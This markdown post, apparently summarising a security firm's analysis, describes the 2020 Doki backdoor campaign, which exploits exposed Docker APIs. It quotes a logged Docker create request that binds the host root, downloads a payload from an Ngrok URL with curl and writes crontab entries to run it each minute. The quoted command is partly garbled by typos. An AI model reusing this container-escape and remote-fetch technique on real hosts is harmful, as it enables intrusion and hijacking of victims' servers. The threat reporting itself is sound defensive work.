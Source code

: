 ```yaml
---

title: " Doki Malware Attack  "
description: "  "

---
```



# Doki Malware Attack 

Recently in July 2020 , Intezer Security Researchers have detected a new malware payload that is diffenet from standard crypto-miners whcih is a fully undetected backdoor named as doki. it used an 
undocumented method to contact its operator by abusing the dogecoin cryptocurrency blockchain in a unique way in order to dynamically generate its C2 domain address . th malware managed to stay under the radar for over 6 months despite samples being publicaly availabe in VirusTotal 


In this attack , The Threat is targeting misconfigured containerized environments in the cloud. the attackers scan for publicly accessible Docker API ports and exploit them in order to setup their own 
containers and execute malware on the victim's infrastructure . the attackers are spaning and deleting a number of container duringa attack 


- Attack Initialtion :- The attack is based on non-malicious `alpine-curl ` image publicly available on Docker Hub . This image is being abused further to carry out malicious activity 

![](/img/Intizer_Ari_Info_v3.pngw3.webp)


The technique is based on the creation of a new container , accomplished by posting a `create ` API request the body of the request contains configuration parameter for the container 

one of the parameter is   `bind` which lets user configure which file or directort on the host machine into a contaienr. 


Ngrok is a service which provides secure tunnels to connect between local servers and the public internet. The attacker abuses Ngrok to craft unique URLs with a short lifetime and uses them to download payloads during the attack by passing them to the curl based image. The downloaded payload is saved in /tmpXXXXXX directory in the container.


```

Calling POST /v1.16/containers/create (\"Cmd\": [ \"-c\", \"curl --retry 3 -m 60 -o /tmpe904c3/tmp/tmpfileb64ea3ba45a6a0abd0fe9d22511b77c6d \\\"http://04a4baaee996.narok.io/f/serve?1=d\\u0026r=b64ea3ba48a6a0abdOfe9d22511b77c6\\\"; echo \\\n* * * * root sh /tmp/tmpfileb64ea3ba48a6a0abdOfe9d22511b77c6d\\\" \\u003e/tmpe904c3/etc/crontab; echo \\\nA A A A root sh /tmp/tmpfileb64ea3ba48a6a0abd0fe9d22511b77c6d\\\" \\u003e/tmpe904c3/etc/cron.d/lm; chroot /tmpe904c3 sh -c \\\"cron 11 crond\\\"\" 
,\"Entrypoint\":\n/bin/sh\",\"HostConfig\":{\"Binds\":[\"/:/tmpe904c3\"]1, \"Image\":\"sha256:5301ebcf503e9c6d3a3SceOde6dObc3d796560c2e05ble09SeSa6ab2afc2bdf0\" 


```

By using the bind configuration the attacker can control the cron utility of the host.
The attacker modifies the host’s cron to execute the downloaded payload every minute. We observed two types of payloads, one is a network scanner script and the other is a downloader script.

The network scanner uses zmap, zgrap, and jq to scan ports associated with Redis, Docker, SSH, and HTTP.

Using a list of hardcoded ranges of IP addresses, which belong mostly to cloud servers such as AWS and local cloud providers in foreign regions (we have seen providers from China, Austria, and the United Kingdom), the script gathers the information and uploads it to another Ngrok URL.

The downloader script is responsible for downloading and installing various malware binaries, often one of several well known cryptominers. We have noticed it can also install a fully undetected malware component. We named this malware Doki and will provide a technical analysis in the next section.

The attacker has full control over the configuration of the container he creates and the files that are dropped into the container. By using legitimate API commands, the attacker is able to escape from the container he created and execute any code from within the server itself.